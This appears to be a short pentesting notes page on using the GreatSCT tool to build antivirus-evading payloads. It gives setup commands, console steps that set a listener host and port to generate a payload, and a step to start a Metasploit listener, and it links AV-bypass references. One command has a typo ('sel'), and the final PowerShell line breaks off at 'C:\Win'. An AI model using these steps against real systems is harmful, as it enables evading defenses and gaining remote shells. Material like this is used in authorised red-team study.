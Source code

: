 # GreatSCT
Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```bash
# Download
git clone https://github.com/GreatSCT/GreatSCT.git

cd GreatSCT/setup/
./setup.sh

cd ..
./GreatSCT.py
```

Inside `GreatSCT.py`

```sh
use 1
list
use 9
set lhost <ip>
sel lport <port>
generate
```

Now start the listener with `msfconsole -r file.rc` and execute the XML payload with:

```powershell
C:\Win
```


# Manual Obfuscation
- **[https://0xstarlight.github.io/posts/Bypassing-Windows-Defender/](https://0xstarlight.github.io/posts/Bypassing-Windows-Defender/)**


# References
- [https://book.hacktricks.wiki/en/windows-hardening/av-bypass.html](https://book.hacktricks.wiki/en/windows-hardening/av-bypass.html)
- [https://github.com/GreatSCT/GreatSCT.git](https://github.com/GreatSCT/GreatSCT.git)
